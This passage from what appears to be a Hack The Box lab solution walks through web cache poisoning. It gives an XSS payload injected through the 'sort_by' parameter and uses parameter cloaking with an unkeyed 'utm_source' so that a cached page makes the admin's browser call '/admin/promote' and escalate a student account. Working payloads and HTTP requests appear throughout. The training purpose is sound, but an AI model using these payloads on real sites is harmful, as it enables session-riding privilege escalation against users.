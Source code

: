 Students need to URL-encode the payload, making sure all special characters are encoded also:

Code: javascript

```javascript
doesNotMatter%22%29%3C%2Fscript%3E%3Cscript%3Ealert%28%22XSS%20Success%22%29%3BdoesNotMatter%3D%28%22
```

```http
GET /admin/users.html?sort_by=doesNotMatter%22%29%3C%2Fscript%3E%3Cscript%3Ealert%28%22XSS%20Success%22%29%3BdoesNotMatter%3D%28%22 HTTP/1.1
```

![[HTB Solutions/CWEE/z. images/1379e05bc91d5c2e59ae789d96ec9737_MD5.jpg]]

After confirming that the payload is injected correctly, students need to combine all previously gathered intel to poison the cache for the `admin` user utilizing `parameter cloaking`, in addition to knowing that `utm_source` is unkeyed while `sort_by` is keyed (students need to make sure that this is a cache `MISS` the first time it is sent, if not, they need to wait for 2 minutes until the cache expires):

```javascript
sort_by=role&utm_source=index.html;sort_by=doesNotMatter")</script><script>var xhr = new XMLHttpRequest();xhr.open('GET', '/admin/promote?uid=2', true);xhr.withCredentials = true;xhr.send();doesNotMatter=("
```

Students need to URL-encode the payload, making sure all special characters are encoded also:

```javascript
sort_by=role&utm_source=index.html;sort_by=doesNotMatter%22%29%3C%2Fscript%3E%3Cscript%3Evar%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3Bxhr%2Eopen%28%27GET%27%2C%20%27%2Fadmin%2Fpromote%3Fuid%3D2%27%2C%20true%29%3Bxhr%2EwithCredentials%20%3D%20true%3Bxhr%2Esend%28%29%3BdoesNotMatter%3D%28%22
```
```http
GET /admin/users.html?sort_by=role&utm_source=index.html;sort_by=doesNotMatter%22%29%3C%2Fscript%3E%3Cscript%3Evar%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3Bxhr%2Eopen%28%27GET%27%2C%20%27%2Fadmin%2Fpromote%3Fuid%3D2%27%2C%20true%29%3Bxhr%2EwithCredentials%20%3D%20true%3Bxhr%2Esend%28%29%3BdoesNotMatter%3D%28%22 HTTP/1.1
```

![[HTB Solutions/CWEE/z. images/650a4ff8040bb97e88a875a8d777724a_MD5.jpg]]

After waiting for a few seconds, students will notice that the admin has triggered the XSS payload, therefore, making `htb-stdnt` an `admin` user:

![[HTB Solutions/CWEE/z. images/2411dadf9d3047cfe59a03c24f68ea71_MD5.jpg]]

Therefore, students will be able to access `/admin/sysinfo`:

![[HTB Solutions/CWEE/z. images/cf673300e64507e7aaa206f3c3116621_MD5.jpg]]

However, students will notice that the webpage instructs admins to access the site `httpattacks:STMPO/admin/sysinfo?refresh=1`, in addition requiring a PIN to access the admin panel:

![[HTB Solutions/CWEE/z. images/7d24a86851b617f10f7f7d6b81193704_MD5.jpg]]
